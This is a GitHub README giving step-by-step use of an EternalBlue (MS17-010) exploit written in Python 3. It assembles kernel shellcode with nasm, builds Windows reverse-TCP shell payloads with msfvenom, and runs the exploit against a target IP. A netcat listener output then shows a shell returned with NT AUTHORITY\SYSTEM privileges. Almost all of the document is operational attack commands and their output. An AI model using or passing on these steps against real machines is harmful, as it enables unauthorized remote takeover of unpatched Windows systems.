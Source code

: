 # EternalBlue-in-Python3

## How to use

### Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

### Compiling the shellcode(s)

### x64

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```

### Create a Bin

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Exploit

```
python3 eternal-blue.py TARGET-IP final.bin
```

Open NC and wait the connection

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [0.0.0.0] from (UNKNOWN) [0.0.0.0] 49191
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

